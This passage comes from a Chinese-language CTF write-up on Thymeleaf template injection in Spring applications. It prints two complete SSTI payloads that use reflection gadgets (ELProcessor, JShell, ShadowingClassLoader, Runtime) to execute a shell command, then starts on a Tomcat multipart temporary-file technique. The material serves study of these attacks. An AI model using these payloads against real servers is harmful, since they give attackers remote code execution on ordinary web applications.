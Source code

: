 ![](https://img-blog.csdnimg.cn/direct/9185f89ec8264d45819f9f40687cf1e6.png)

```java
[[${T(org. apache.tomcat.util.IntrospectionUtils).callMethodN(T(com.zaxxer.hikari.util.UtilityElf).createInstance('jakarta.el.ELProcessor',T(ch.qos.logback.core.util.Loader).loadClass('jakarta.el.ELProcessor')), 'eval', new java.lang.String[]{'"".getClass().forName("jdk.jshell.JShell").getMethods()[6].invoke("".getClass().forName("jdk.jshell.JShell")).eval("java.lang.Runtime.getRuntime().exec(\"touch /tmp/success\")")'}, T(org. apache.el.util.ReflectionUtil).toTypeArray(new java.lang.String[]{"java.lang.String"}))}]]
```

#### poc2
官方wp：

比上面多了实例化`org.springframework.instrument.classloading.ShadowingClassLoader`并调用其loadClass方法
![](https://img-blog.csdnimg.cn/direct/770d457608794c75b9e38fedaa1d411b.png)

然后反射调用的是经典的`java.lang.Runtime`

```java
__${new.org..apache.tomcat.util.IntrospectionUtils().getClass().callMethodN(new.org..apache.tomcat.util.IntrospectionUtils().getClass().callMethodN(new.org..apache.tomcat.util.IntrospectionUtils().getClass().findMethod(new.org..springframework.instrument.classloading.ShadowingClassLoader(new.org..apache.tomcat.util.IntrospectionUtils().getClass().getClassLoader()).loadClass("java.lang.Runtime"),"getRuntime",null),"invoke",{null,null},{new.org..springframework.instrument.classloading.ShadowingClassLoader(new.org..apache.tomcat.util.IntrospectionUtils().getClass().getClassLoader()).loadClass("java.lang.Object"),new.org..springframework.instrument.classloading.ShadowingClassLoader(new.org..apache.tomcat.util.IntrospectionUtils().getClass().getClassLoader()).loadClass("org.thymeleaf.util.ClassLoaderUtils").loadClass("[Ljava.lang.Object;")}),"exec","touch /tmp/success",new.org..springframework.instrument.classloading.ShadowingClassLoader(new.org..apache.tomcat.util.IntrospectionUtils().getClass().getClassLoader()).loadClass("java.lang.String"))}__::.x
```

当然师傅们还有很多巧妙的思路，就不多赘述了

## Tomcat临时文件
具体思路参考：[https://tttang.com/archive/1692/#toc__4](https://tttang.com/archive/1692/#toc__4)

看到SpringMVC的`org.springframework.web.servlet.DispatcherServlet#doDispatch`
![](https://img-blog.csdnimg.cn/direct/86132dd24fd24dfbb802282f244a7f04.png)

其中会检查这是否是一个表单请求
```
parseParts:2703, Request (org.apache.catalina.connector)
getParts:2685, Request (org.apache.catalina.connector)
getParts:773, RequestFacade (org.apache.catalina.connector)
parseRequest:93, StandardMultipartHttpServletRequest (org.springframework.web.multipart.support)
<init>:86, StandardMultipartHttpServletRequest (org.springframework.web.multipart.support)
resolveMultipart:112, StandardServletMultipartResolver (org.springframework.web.multipart.support)
checkMultipart:1227, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1061, DispatcherServlet (org.springframework.web.servlet)
```
后续跟进到`org.apache.catalina.connector.Request#parseParts`
![](https://img-blog.csdnimg.cn/direct/1464ecb8262b49a1a557273754d4c292.png)
